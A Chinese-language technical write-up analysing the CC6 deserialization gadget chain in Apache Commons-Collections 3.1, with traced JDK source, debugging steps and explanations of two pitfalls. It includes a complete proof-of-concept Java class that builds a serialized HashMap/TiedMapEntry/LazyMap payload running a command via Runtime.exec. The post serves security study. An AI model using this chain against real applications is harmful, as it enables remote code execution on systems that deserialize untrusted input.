




# CC6反序列化分析

这条链子依旧是在commons-collections3.1中利用的（commons-collections4中的LazyMap没有*decorate这个方法了*）

## 利用链查找分析

```java
/*
	Gadget chain:
	    java.io.ObjectInputStream.readObject()
            java.util.HashSet.readObject()
                java.util.HashMap.put()
                java.util.HashMap.hash()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.hashCode()
                    org.apache.commons.collections.keyvalue.TiedMapEntry.getValue()
                        org.apache.commons.collections.map.LazyMap.get()
                            org.apache.commons.collections.functors.ChainedTransformer.transform()
                            org.apache.commons.collections.functors.InvokerTransformer.transform()
                            java.lang.reflect.Method.invoke()
                                java.lang.Runtime.exec()
    by @matthias_kaiser
*/
```

这是ysoserial中的CC6的链子，先将整条链子梳理一遍，注意在查找的时候适当下断点方便后面调试。

找到切入点，从`LazyMap`后面开始都是跟CC1一样的，就是`transform()`方法，从这边可以找一下`LazyMap`中调用`transform()`方法的位置，有一个`get()`方法调用了同名方法，然后可以看到代码逻辑大概是判断get传过来的key是否为空，如果为空那就进行if判断，调用`transform()`方法



继续查找调用了`get()`方法的地方，这里调用比较简单，只要调用`getValue()`就自动返回调用`get()`方法



继续向上找调用`getValue()`的地方，`hashCode()`方法中进行 了调用。


继续查找调用`hashCode()`的地方

```java
    static final int hash(Object key) {
        int h;
        return (key == null) ? 0 : (h = key.hashCode()) ^ (h >>> 16);
    }
```

这里return这边操作了一个三元运算符，如果key为空，则返回0，如果不为空，则对key进行操作（将hashCode右移16位并与原来的值异或）不纠结为什么异或操作，只需要看这里执行了`hashCode()`这个方法。

继续向上找调用了`hash`方法的位置，在`java.util.HashMap.readObject()`最后有调用`hash`方法。

```java
private void readObject(java.io.ObjectInputStream s)
        throws IOException, ClassNotFoundException {
        // Read in the threshold (ignored), loadfactor, and any hidden stuff
        s.defaultReadObject();
        reinitialize();
        if (loadFactor <= 0 || Float.isNaN(loadFactor))
            throw new InvalidObjectException("Illegal load factor: " +
                                             loadFactor);
        s.readInt();                // Read and ignore number of buckets
        int mappings = s.readInt(); // Read number of mappings (size)
        if (mappings < 0)
            throw new InvalidObjectException("Illegal mappings count: " +
                                             mappings);
        else if (mappings > 0) { // (if zero, use defaults)
            // Size the table using given load factor only if within
            // range of 0.25...4.0
            float lf = Math.min(Math.max(0.25f, loadFactor), 4.0f);
            float fc = (float)mappings / lf + 1.0f;
            int cap = ((fc < DEFAULT_INITIAL_CAPACITY) ?
                       DEFAULT_INITIAL_CAPACITY :
                       (fc >= MAXIMUM_CAPACITY) ?
                       MAXIMUM_CAPACITY :
                       tableSizeFor((int)fc));
            float ft = (float)cap * lf;
            threshold = ((cap < MAXIMUM_CAPACITY && ft < MAXIMUM_CAPACITY) ?
                         (int)ft : Integer.MAX_VALUE);

            // Check Map.Entry[].class since it's the nearest public type to
            // what we're actually creating.
            SharedSecrets.getJavaOISAccess().checkArray(s, Map.Entry[].class, cap);
            @SuppressWarnings({"rawtypes","unchecked"})
            Node<K,V>[] tab = (Node<K,V>[])new Node[cap];
            table = tab;

            // Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
        }
    }
```

需要注意的是，`HashMap`类中的`put()`方法也调用了`hash()`，要注意这里不能在序列化时调用到payload，否则会在序列化时就被执行。具体分析参考问题分析1

```java
    public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

到此整条链子是找完了，断点也差不多都打上了

然后就可以编写POC进行调试了，这里POC来源是bilibili：白日梦组长

## POC分析

```java
package com.dmsj.cc;

import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.keyvalue.TiedMapEntry;
import org.apache.commons.collections.map.LazyMap;


import java.io.*;
import java.lang.reflect.Field;
import java.util.HashMap;
import java.util.Map;

public class CC6Test {
    public static void main(String[] args) throws Exception{
        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})
        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(transformers);

        HashMap<Object, Object> map1 = new HashMap<Object, Object>();
        //  修改 lazyMap 使链失效，不触发 Calc
        Map<Object, Object> lazyMap = LazyMap.decorate(map1, new ConstantTransformer(1));

        TiedMapEntry tiedMapEntry = new TiedMapEntry(lazyMap, "1");

        HashMap<Object, Object> map2 = new HashMap<Object, Object>();
        // 会提前调用 hash(key)，导致 Clac
        map2.put(tiedMapEntry, "2");
        // 删除 put 时添加的 key
        lazyMap.remove("1");

        // 调用 put 方法后将 lazyMap 修改回正常可用的
        Class c = LazyMap.class;
        Field factoryField = c.getDeclaredField("factory");
        factoryField.setAccessible(true);
        factoryField.set(lazyMap, chainedTransformer);

        //serialize(map2);
        unserialize("ser.bin");

    }

    public static void serialize(Object obj) throws IOException {
        ObjectOutputStream oos = new ObjectOutputStream(new FileOutputStream("ser.bin"));
        oos.writeObject(obj);
    }
    public static Object unserialize(String Filename) throws IOException, ClassNotFoundException {
        ObjectInputStream ois = new ObjectInputStream(new FileInputStream(Filename));
        Object obj = ois.readObject();
        return obj;
    }
}
```

在`HashMap`类中发现重写的`readObject`方法



在这个方法的最后`HashMap`的键值(key)作为一个参数来调用`hash`方法

```java
// Read the keys and values, and put the mappings in the HashMap
            for (int i = 0; i < mappings; i++) {
                @SuppressWarnings("unchecked")
                    K key = (K) s.readObject();
                @SuppressWarnings("unchecked")
                    V value = (V) s.readObject();
                putVal(hash(key), key, value, false, false);
            }
```

跟进这个方法，调用了`hashCode`方法计算键的散列值（HashMap 的键必须是唯一的）


然后查找利用了同名方法的类，在`TiedMapEntry`中存在这样一个方法。


它调用了`getValue`方法，跟进查看，还调用了`map.get`方法	


然后发现存在一个构造方法是赋值给map和key的，也就是说map和key参数是可控的

所以可以通过实例化一个`LazyMap`对象，去调用`LazyMap`的`get`方法

## 调试分析

开启debug，走第一步，看LazyMap.decorate()处理map1对象和实例化的ConstantTransformer对象（参数为1）


下一步，实例化`TiedMapEntry`对象，map为上面的lazyMap，key为自定义的1

进入`hashCode()`继而进入了`getValue()`


此时`key=1`，进入get方法



因为key是存在的且不为false，所以不进入判断，直接`return map.get.key`


然后将key=1移除掉，也就是`lazyMap.remove`的处理结果，此时key不存在。

然后继续进行，将`chainedTransformer`赋给`lazyMap`，使用了暴力反射（因为LazyMap中的factory是protected修饰的）最后进行序列化就可以了。成功序列化后进行反序列化，就成功完成命令执行。


## 问题分析

### 序列化时执行命令

先看效果 


分析一下，为什么这里在序列化时就执行了命令？ 

关键是在

```java
Map<Object, Object> lazyMap = LazyMap.decorate(map1,chainedTransformer);
```

如果这样处理，在一开始将chainedTransformer传入lazyMap中，在序列化时，`map2.put(tiedMapEntry, "2");`put方法会直接调用hash(key)然后继续触发利用链，知道执行命令。

```java
   public V put(K key, V value) {
        return putVal(hash(key), key, value, false, true);
    }
```

而如果在put之前，把`chainedTransformer`换成一个任意值，在put之后再使用反射得到LazyMap的factory方法，再将原来的可执行命令的`chainedTransformer`值给到`lazyMap`再继续序列化操作。

### 反序列化时执行命令失败

```java
public Object get(Object key) {
        // create value for key if key is not currently in the map
        if (map.containsKey(key) == false) {
            Object value = factory.transform(key);
            map.put(key, value);
            return value;
        }
        return map.get(key);
    }
```

主要问题在这里，因为前面为了序列化时不执行命令，所以提前设置了lazyMap的key值，也就是`new ConstantTransformer(1)`（或者任意值）也就是1，因为

```java
public ConstantTransformer(Object constantToReturn) {
        super();
        iConstant = constantToReturn;
    }
```

直接返回，也就相当于是1

走到get方法去调用transform方法时，会先进行一个判断，也就是key存在不存在。存在的话直接return ，不存在时才可以进入调用`factory.transform(key)`所以在这里传入了任意值他就没办法进入if判断中，所以需要在走过`HashMap.put()`之后，移除掉key，

```java
lazyMap.remove("1");
```

再进行反序列化时可以进入判断，并调用`transform()`